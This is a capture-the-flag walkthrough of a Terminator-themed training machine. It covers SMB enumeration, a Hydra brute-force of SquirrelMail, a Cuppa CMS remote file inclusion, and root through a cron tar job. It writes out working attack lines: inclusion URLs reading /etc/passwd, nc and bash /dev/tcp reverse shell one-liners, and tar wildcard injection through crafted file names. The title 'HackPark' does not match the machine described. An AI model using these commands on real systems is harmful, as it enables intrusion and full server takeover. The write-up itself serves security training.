


# HackPark

[TOC]

## Introduction

Are we able to compromise this Terminator themed machine?

Let's get started!

## Service Scanning

After deploying the machine the first order of business would be performing a port scan on the target in order to check for active services.

```
nmap $ip
```

> PORT   STATE SERVICE
> 22/tcp  open  ssh
> 80/tcp  open  http
> 110/tcp open  pop3
> 139/tcp open  netbios-ssn
> 143/tcp open  imap
> 445/tcp open  microsoft-ds

With this scan we know that the server is hosting:

1. SSH which we can use to login remotely
2. HTTP Web Server
3. POP3 and IMAP which are two protocols used for email retrieval.
4. SMB which is a protocol that is used for file and printer sharing over a local area network

Let us start by investigating the Web Page.

## Skynet and Squirrelmail



First thing I did was try to inspect element and go to /robots.txt to see if I could extract some information. Nothing came up. I searched using the two buttons which did not provide any output. Hence, I decided to dig a little deeper using Gobuster for web enumeration.

```
gobuster dir -u http://10.10.185.255 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```


I confirmed I could not access any of the directories above except for `/squirrelmail`, which returned this page.


The typical "admin:admin" combo did not work so I moved on to another service in hopes of finding some possible combination of credentials.


## Anonymous Samba Share

Moving on to SMB, I started by performing some enumeration using enum4linux:

```
enum4linux -a $ip
```

> Sharename       Type      Comment
> ---------       ----      -------
> ​        print$          Disk      Printer Drivers
> ​        anonymous       Disk      Skynet Anonymous Share
> ​        milesdyson      Disk      Miles Dyson Personal Share
> ​        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

Great! We even though we cannot access milesdyson's share we can access the anonymous share without requiring any sort of credentials. Let us try to see what information is being stored inside.

```
smbclient //$ip/anonymous -N
```

There are two interesting pieces of information:

1. The attention.txt tells us employees were told to change their passwords
2. The log1.txt contains a set of passwords we can try to use


## Logging into SquirrelMail

Now that we have a set of potential credentials we can go back to SquirrelMail to try and bruteforce the login portal using Hydra.

I generated two files: 

1. Passwords.txt which contains the list of credentials that were extracted from the anonymous share
2. Users.txt which contains the users "milesdyson", "anonymous" and "admin"

```
hydra 10.10.185.255 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -L users.txt -P passwords.txt -f -V
```

After executing the command above the correct pair of credentials was found.


An alternative would be to run a "Cluster Bomb" attack using Burp.

**Question** What is Miles password for his emails?

> Redacted

Now that we have logged in to the email client, there seems to be 3 emails for us to read. Two of them hold meaningless information, even the one in binary which contains the string "balls have zero to me to me to me to me to me to me to me to me to".

Finally, one email contains relevant information. The new password of a particular user.

Earlier we noticed another SMB share we could not connect to because it was password protected. Let's try again with this new password. 

```
smbclient //10.10.185.255/milesdyson -U milesdyson
```

Great! We have access to milesdyson's personal share!


## Logging into Miledyson's SMB Share

Inside his share there are a bunch of files which hold meaningless information but one! Inside the notes directory there is an important.txt file which holds the hidden /45kra24zxs28v3yd directory.

**Question** What is the hidden directory?

> /45kra24zxs28v3yd

This page does not seem to hold any interesting information even fater insppecting the html code. 

Running a new Gobuster scan we were able to discover the /administrator page which holds a CMS!

```
gobuster dir -u http://10.10.185.255/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```


## Cuppa CMS Vulnerability

After searching for default credentials for Cuppa CMS and trying some of the combinations that worked so far nothing seemed to be working. Hence, I decided to search for any available exploits. There is one which could lead to being able to get shell on to the target.

The description of [this vulnerability](https://www.exploit-db.com/exploits/25971) states "An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise."

> Examples:
>
> http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
> http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

This lets us know we can download files from our local machine for example or directly read files from a directory.

**Question** What is the vulnerability called when you can include a remote file for malicious purposes?

> Remote File Inclusion

We can test this by typing into the browser or curling the following URL:

```
curl http://10.10.88.105/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

Great, we get the content of the /etc/passwd file. 

We can perform another test by uploading a php file and checking if our code is executed by the target. Create a simple .php file with the following code, or anything which may output something.

```php
<?php
system('whoami');
?>
```

Afterwards we create a simple http server using python:

```
python3 -m http.server 8000
```

We perform a request on the target...


... and we can see that the code was executed! This means we can create a reverse shell payload in PHP that is executed by the target and that connects back to a local port. 

We can use Pentest Monkey's Reverse PHP shell as our payload. Simply edit the script by adjusting our IP and a chosen port, create an HTTP server using python and perform the request on the browser.


**Do not forget to setup a netcat listener since the reverse shell payload will be executed and will try to connect to our local port!**

**Question** What is the user flag? 

> Redacted
>
> Stored at /home/milesdyson/user.txt

## Shell Upgrade and Privilege Escalation

Now that we have a working shell let's upgrade it first things first:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let's run Linpeas and see if there is anything for us to exploit in order to escalate our privileges. We can see that in the Cron Jobs section there is something worth exploring.


We can see that there is a script located in **/home/milesdyson/backups/backup.sh**. If we `cat` this file we can see that the script does two things:

1. Changes directory to /var/www/html 
2. Compresses every file inside into a file called backup.tgz


There is a vulnerability we can take advantage of which lets us execute code through the tar command. The command below can be used to spawn an interactive system shell.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This means we can execute a script which acts as a reverse shell for a listening port in our attacker machine.

For this we have to create a reverse shell:

**Example 1 (target has nc installed):**

```
cd /var/www/html
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f" > shell.sh
```

**Example 2:**

```
cd /var/www/html
echo "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'" > shell.sh
```

Now that we have created our payload we can exploit the vulnerability. 

The backup.sh script is running a command where tar is taking advantage of a wildcard. This wildcard is substitued with every file on our folder, which means if we can create two files with the names `--checkpoint=1` and `--checkpoint-action=exec=sh shell.sh` we can make tar execute our shell.sh command.

```
cd /var/www/html
touch ./'--checkpoint=1'
touch ./'--checkpoint-action=exec=sh shell.sh'
```

In other words after creating these two files on the /var/www/html directory the command that would run would be:

```
tar cd /home/milesdyson/backups/backup.tgz --checkpoint=1 and --checkpoint-action=exec=sh shell.sh ...SNIP...
```

**Post exploitation I checked that the command that was executed was as shown below!**


This effectively executes our shell.sh and by having a local nc listener waiting we can catch the reverse shell with root rivileges, since the cron job is being executed as the root user.



**Question** What is the root flag? 

> Redacted
>
> Stored at /root/root.txt
